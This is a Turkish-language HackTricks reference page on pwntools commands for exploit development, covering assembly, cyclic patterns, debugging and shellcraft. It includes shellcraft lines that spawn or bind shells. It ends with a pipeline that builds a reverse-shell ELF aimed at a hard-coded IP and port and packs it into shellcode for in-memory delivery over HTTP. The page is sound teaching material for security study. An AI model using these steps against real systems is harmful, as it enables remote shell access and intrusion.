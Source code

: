 # PwnTools

{{#include ../../../banners/hacktricks-training.md}}
```
pip3 install pwntools
```
## Pwn asm

Satırdan veya dosyadan **opcodes** alın.
```
pwn asm "jmp esp"
pwn asm -i <filepath>
```
**Seçilebilir:**

- çıktı türü (raw,hex,string,elf)
- çıktı dosyası bağlamı (16,32,64,linux,windows...)
- baytlardan kaçın (new lines, null, a list)
- encoder seç, shellcode'u gdb ile debug et ve çıktıyı çalıştır

## **Pwn checksec**

Checksec script
```
pwn checksec <executable>
```
## Pwn constgrep

## Pwn cyclic

Bir pattern al
```
pwn cyclic 3000
pwn cyclic -l faad
```
**Seçilebilir:**

- Kullanılan alfabe (varsayılan olarak küçük harfler)
- uniq pattern uzunluğu (varsayılan 4)
- context (16,32,64,linux,windows...)
- Ofseti al (-l)

## Pwn debug

GDB'yi bir işleme bağlayın.
```
pwn debug --exec /bin/bash
pwn debug --pid 1234
pwn debug --process bash
```
**Seçilebilir:**

- executable'e göre, isim veya pid bağlamına göre (16,32,64,linux,windows...)
- Çalıştırılacak gdbscript
- sysrootpath

## Pwn disablenx

Bir binary'nin nx özelliğini devre dışı bırakır
```
pwn disablenx <filepath>
```
## Pwn disasm

Hex opcodes'larını disassemble et
```
pwn disasm ffe4
```
**Seçilebilir:**

- context (16,32,64,linux,windows...)
- base addres
- color(default)/no color

## Pwn elfdiff

İki dosya arasındaki farkları yazdırır
```
pwn elfdiff <file1> <file2>
```
## Pwn hex

Onaltılık gösterimini al
```bash
pwn hex hola #Get hex of "hola" ascii
```
## Pwn phd

hexdump alın
```
pwn phd <file>
```
**Seçilebilir:**

- Gösterilecek bayt sayısı
- Satır başına bayt sayısı — vurgulanacak bayt
- Başlangıçtaki baytları atla

## Pwn pwnstrip

## Pwn scrable

## Pwn shellcraft

Shellcodes al
```
pwn shellcraft -l #List shellcodes
pwn shellcraft -l amd #Shellcode with amd in the name
pwn shellcraft -f hex amd64.linux.sh #Create in C and run
pwn shellcraft -r amd64.linux.sh #Run to test. Get shell
pwn shellcraft .r amd64.linux.bindsh 9095 #Bind SH to port
```
**Seçilebilir:**

- shellcode ve shellcode için argümanlar
- Çıkış dosyası
- çıktı formatı
- debug (dbg'yi shellcode'a bağla)
- before (koddan önce debug trap)
- sonrası
- opcodes kullanmaktan kaçın (varsayılan: null ve yeni satır içermeyen)
- shellcode'u çalıştır
- Renkli/renksiz
- syscalls listesini göster
- olası shellcode'ları listele
- ELF'i shared library olarak oluştur

## Pwn şablonu

Bir python şablonu al
```
pwn template
```
**Seçilebilir:** host, port, user, pass, path and quiet

## Pwn unhex

Hex'ten string'e
```
pwn unhex 686f6c61
```
## Pwn güncellemesi

pwntools'u güncellemek için
```
pwn update
```
## ELF → raw shellcode paketleme (loader_append)

Pwntools, bağımsız bir ELF'i tek bir raw shellcode bloğuna dönüştürebilir; bu blok segmentlerini kendi kendine haritalar ve yürütmeyi orijinal entrypoint'e aktarır. Bu, memory-only loaders için idealdir (ör. JNI çağırarak indirilen baytları çalıştıran Android uygulamaları).

Tipik işlem hattı (amd64 örneği)

1) Statik, konum-bağımsız payload ELF oluşturun (taşınabilirlik için musl önerilir):
```bash
musl-gcc -O3 -s -static -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
2) pwntools ile ELF'i shellcode'a dönüştürme:
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
```
3) sc'yi bir memory loader'a (ör. HTTP[S] ile) teslim edin ve aynı proses içinde çalıştırın.

Notlar
- loader_append orijinal ELF programını shellcode'un içine gömer ve segmentleri mmaps eden ve entry'ye atlayan küçük bir loader üretir.
- Mimarinin context.clear(arch=...) ile açıkça belirtilmesine dikkat edin. arm64 Android'de yaygındır.
- Payload'unuzun kodunun konum-bağımsız olmasını sağlayın ve proses ASLR/NX hakkında varsayımlarda bulunmaktan kaçının.

## Referanslar

- [Pwntools](https://docs.pwntools.com/en/stable/)
- [CoRPhone – ELF→shellcode pipeline used for Android in-memory execution](https://github.com/0xdevil/corphone)

{{#include ../../../banners/hacktricks-training.md}}
